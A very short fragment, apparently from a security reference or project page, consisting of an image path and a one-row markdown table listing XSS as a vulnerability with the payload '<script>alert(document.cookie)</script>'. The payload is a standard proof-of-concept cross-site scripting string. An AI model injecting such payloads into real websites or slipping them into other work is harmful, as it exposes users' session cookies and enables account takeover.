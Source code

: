 | Vulnerability               | Payload                                                |
|-----------------------------|--------------------------------------------------------|
| XSS                         |       <script>alert(document.cookie)</script>          |
